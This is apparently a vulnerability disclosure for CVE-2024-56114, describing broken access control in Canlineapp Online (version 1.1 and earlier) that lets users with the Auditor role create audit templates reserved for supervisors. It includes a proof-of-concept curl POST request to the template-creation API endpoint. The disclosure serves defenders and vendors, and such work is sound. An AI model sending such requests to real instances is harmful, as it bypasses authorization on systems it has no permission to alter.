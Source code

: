 # CVE-2024-56114
Canlineapp Online is vulnerable to Broken Access Control and allows users with the Auditor role to create an audit template as a result of improper authorization checks. This feature is designated for supervisor role, but auditors have been able to successfully create audit templates from their account.

# Affected Product & Version
Canlineapp Online <= 1.1

# PoC
 
cURL command
````
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: ' -H $'Content-Type: application/json' -H $'Authorization: ' -H $'Origin: '  \
    --data-binary $'{\"data\":{\"id\":0,\"sbuId\":8,\"sbuName\":\"pentest\",\"processId\":59,\"processName\":\"Test\",\"templateName\":\"Broken Access Control\",\"description\":\"test\"}}' \
    $'http://your_instance/api/AddEditAuditTemp'
````

# Credits
This vulnerability was discovered by Manjyot Singh of Henkel Cyber Security Team.
